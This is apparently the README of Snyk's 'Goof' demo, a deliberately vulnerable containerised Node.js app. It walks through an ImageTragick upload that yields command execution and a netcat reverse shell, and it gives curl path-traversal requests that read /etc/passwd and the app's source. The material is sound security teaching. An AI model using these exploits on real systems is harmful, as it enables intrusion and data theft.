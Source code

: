 # Goof - Snyk's application demo for breaking into containers

Purpose of this repository is to demonstrate a Node.js web application that is packaged as a container, and shows container-level vulnerabilities that result in breaking into the container.

Vulnerabilities and exploitation is:
- The vanilla Node.js base image `node:6.1.0-wheezy` ships with a vulnerable image of ImageMagick, specifically, ImageTragick CVE-2016-3714.
- In attempt to move away from the above base image, a user may turn into the latest Node.js 8 version, at the time being `8.5.0`. Except, there's a vulnerability in the Node.js 8.5.0 runtime - CVE-2017-14849.

Note: "at the time" is a fictional story for the purpose of a presentation/demo.

# Exploits

## ImageTragick CVE-2016-3714 - Image conversion utility leading to remote command execution

This exploit and application flow demonstrates how a high severity ImageMagic [CVE-2016-3714](https://snyk.io/vuln/SNYK-LINUX-IMAGEMAGICK-121787) improper input validation leads to remote command execution via "ImageTragick" vulnerability.

The exploit makes use of specially crafted image files which bypass the parsing functionality within the imagemagick utility that have further [whitelisted commands](https://github.com/ImageMagick/ImageMagick/blob/e93e339c0a44cec16c08d78241f7aa3754485004/MagickCore/delegate.c#L99) associated with instructions inside the image file. Escaping from the expected input context allows to inject system commands.

This repo includes a remote command execution exploit with a netcat download to achieve reverse shell in distributions that do not bundle netcat by default (such as Debian wheezy) and is based on proof-of-concepts exploits found in https://github.com/ImageTragick/PoCs.

### Install and Run

#### Requirements

- [Node.js](http://nodejs.org) 10 and npm
- The [serve](https://www.npmjs.com/package/serve) npm module installed globally to serve static files, or any other static files HTTP server (`npm install --global serve`)
- [Docker](https://www.docker.com)
- [netcat](https://catonmat.net/unix-utilities-netcat) networking unix utility to serve as a general-purpose network communication

#### Setup

- Clone this repository
- Build the docker image:

  ```
  docker build . -t rce
  ```

- Run the docker image and map the port 3112 from the container to the docker host:

  ```
  docker run --rm -p 3112:3112 --name rce rce
  ```

  Expected input should show the Node.js server has binded to the network interface successfully:

  ```
  npm info it worked if it ends with ok
  npm info using npm@3.8.6
  npm info using node@v6.1.0
  npm info lifecycle goof-container-breaking-in@1.0.0~prestart: goof-container-breaking-in@1.0.0
  npm info lifecycle goof-container-breaking-in@1.0.0~start: goof-container-breaking-in@1.0.0

  > goof-container-breaking-in@1.0.0 start /usr/src/goof
  > node index.js

  [1565780917497] INFO  (17 on e2b4f76a9de6): Server listening at http://0.0.0.0:3112
  ```

### ImageTragick Demo

- Spin up the local static server to serve the netcat package:

  ```
  cd exploits
  serve . -l 5000
  ```

- Browse to `http://localhost:3112/public`, choose a picture to upload and click `resize` to assert the functionality is as expected - you should be redirected to the `result.html` page that shows the scaled image.

- Upload `exploits/rce1.jpg` provided in this repository and then connect to the running container to show that a new empty file called `rce1` was created on `/usr/src/goof`. Print the contents of the `exploits/rce1.jpg` file to show the exploit payload.

  Connecting to the running docker container:

  ```
  docker exec -it rce /bin/bash
  ```

- Run netcat in listening mode and wait for incoming connections:

  ```
  nc -lnv 3131
  ```

- Upload `exploits/rce2.jpg` provided in this repository, wait about 10-20 seconds for the netcat utility to be downloaded from the local static file server, compiled and executed to then create a reverse shell that allows you to interact with in the local netcat listening prompt


## Node.js 8.5.0 Insufficient Validation vulnerability

This exploit demonstrates a [path validation issue](https://snyk.io/vuln/SNYK-UPSTREAM-NODE-72352) found in the core `path` module for Node.js 8.5.0, which affects community modules, such as `send`, and can lead to path traversal vulnerability.

### Install and Run

Update the Dockerfile to use a 8.5.0 version of Node.js, such as:

```
FROM node:8.5.0
```

Rebuild the image, and run it:

```sh
docker build . -t rce --no-cache
docker run --rm -p 3112:3112 --name rce rce
```

#### Path Traversal Demo

Send the following request:

```sh
curl "http://localhost:3112/public/%2e%2e/%2e%2e/%2e%2e/foo/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```

which retrieves the `/etc/passwd` file from inside the Docker container.

You can also just steal the source code for this application:

```sh
curl "http://localhost:3112/public/%2e%2e/%2e%2e/%2e%2e/foo/%2e%2e/%2e%2e/%2e%2e/%2e%2e/usr/src/goof/server.js"
```
